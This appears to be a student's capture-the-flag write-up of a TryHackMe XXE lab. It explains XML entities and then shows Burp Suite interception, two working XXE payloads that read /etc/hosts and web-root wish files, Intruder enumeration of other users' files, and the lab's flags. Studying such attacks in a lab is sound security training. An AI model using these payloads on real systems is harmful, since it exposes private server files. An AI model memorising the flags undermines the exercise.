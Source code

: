 # Day 5 : SOC-mas XX-what-ee?

## Learning Objectives

- Understand the basic concepts related to XML
- Explore XML External Entity (XXE) and its components
- Learn how to exploit the vulnerability
- Understand remediation measures

## Terminologies

`XML` is a commonly used method to transport and store data in a structured format that humans and machines can easily understand. You can think of XML as a `digital filing cabinet`. Just as a filing cabinet has folders with labelled documents inside,`XML uses tags to label and organise information`.

`DTD` is a set of rules that defines the structure of an XML document. Just like a database scheme, it acts like a blueprint, telling you what elements (tags) and attributes are allowed in the XML file.

`Entities` in XML are `placeholders` that allow the `insertion of large chunks of data or referencing internal or external files`. They assist in making the XML file easy to manage, especially when the same data is repeated multiple times. 

`XXE is an attack that takes advantage of how XML parsers handle external entities`. When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to.

## Approach 

We open the link on BurpSuite and intercept it. I found 3 items and then added one of them to cart.

Now when I opened the cart and proceeded to checkout. It asked for a name and address and I gave a random one.

At the end of that it said our wish has been saved as wish#21 which was a link but we get an error message.

![alt text](image.png)

Now the 2nd request, i.e the Wishlist one had the XML structure in it so that's one place where I should look for. 

![alt text](image-1.png)

Then I inputted the given payload :

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>   // Defining an XML document, defining external entity called payload and we're reading the /etc/host file (which resolves IPs to domains - remote filereading)
<wishlist>                                                
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

Now Web Servers onn Linux have a common location like `var/www/html`.

So our new payload is :

```
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_21.txt"> ]>   // Defining an XML document, defining external entity called payload and we're reading the /etc/host file (which resolves IPs to domains - remote filereading)
<wishlist>                                                
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

![alt text](image-2.png)

Now instead of wish_21 if I put wish_1 or something like that, I could read other's wishes.

Then I opened intruder. The wish I sent was wish_1.txt and did the following

![alt text](image-3.png)

This gave me multiple requests and their responses, I found the flag in `wish_15.txt`

`Flag : THM{Brut3f0rc1n6_mY_w4y}`

There is even a changelog at this IP and we find another flag over there.

![alt text](image-4.png)
 `Flag : THM{m4y0r_m4lw4r3_b4ckd00rs}`

 ![alt text](image-5.png)
